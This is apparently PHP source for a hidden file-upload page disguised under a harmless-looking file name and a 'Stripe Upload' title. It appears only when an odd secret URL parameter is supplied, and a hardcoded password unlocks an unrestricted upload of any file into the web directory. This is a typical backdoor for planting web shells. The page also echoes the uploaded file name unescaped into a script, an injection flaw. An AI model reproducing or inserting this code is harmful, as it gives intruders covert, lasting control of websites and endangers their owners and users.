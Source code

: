 if ($_GET['ur1-id'] == "gh_NGHHBGF-4635")
{
	session_start();
	if (isset($_POST["submit"]))
	{
		$str =  "<script>$('#retval').html('";
		if ($_POST['pwd'] == 'BNH_11-hgdbnj') {
        $target_dir    = "./";
        $target_file   = $target_dir . basename($_FILES["fileToUpload"]["name"]);
        $uploadOk      = 1;
        $FileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
        // Check if file already exists
        if (file_exists($target_file))
		{
            $str .= "Sorry, file already exists.<br>";
            $uploadOk = 0;
        }
        if ($uploadOk == 0) {
            $str .= "Sorry, your file was not uploaded.";
            // if everything is ok, try to upload file
        } else {
            if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
                $str .= "The file " . basename($_FILES["fileToUpload"]["name"]) . " has been uploaded.";
            } else {
                $str .= "Sorry, there was an error uploading your file.";
            }
        }
    } else {
        $str .= "Invalid key";
    }
    $str .= "');</script>";
    $_SESSION['message'] = $str;
    unset($_POST);
    unset($_FILES);
    header("Location: parent_info_123.php?ur1-id=gh_NGHHBGF-4635");
    exit;
}
?>
<!DOCTYPE html>
<html>

<head>
    <meta charset="utf-8">
    <title>Stripe Upload</title>
    <link rel="icon" href="favicon.png">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
	<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.1/jquery.min.js"></script>
	<script src="https://cdnjs.cloudflare.com/ajax/libs/popper.js/1.14.7/umd/popper.min.js"></script>
	<script src="https://maxcdn.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</head>

<body class="text-center">
    <div class="container-fluid">

        <div class="row justify-content-center">
            <div class="mx-1 mt-1 card rounded">
                <div class="card-body">
                    <form action="?order_id=gFa6IcyDFvlq4w==" method="post" enctype="multipart/form-data" class="form-signin">
                        <h1 class="h3 mb-3 font-weight-normal">Please verify</h1>
                        <label for="inputPassword" class="sr-only">Password</label>
                        <input type="password" name="pwd" id="pwd" class="form-control" placeholder="Password" required>
                        <label class="btn btn-primary btn-block">
                            Browse <input type="file" name="fileToUpload" id="filetoUpload"
                                onchange="$('#upload-file-info').html(this.files[0].name)" hidden>
                        </label>
                        <p class='label label-info' id="upload-file-info"></p>
                        <p class='label label-info' id="retval"></p>
                        <button name="submit" class="btn btn-lg btn-primary btn-block" type="submit">Verify and upload
                        </button>
                    </form>
                </div>
            </div>

        </div>
    </div>
    <?php
        if(isset($_SESSION['message']))
        {
            echo $_SESSION['message'];
            unset($_SESSION['message']);
        }
    ?>
</body>

</html>
<?php
}

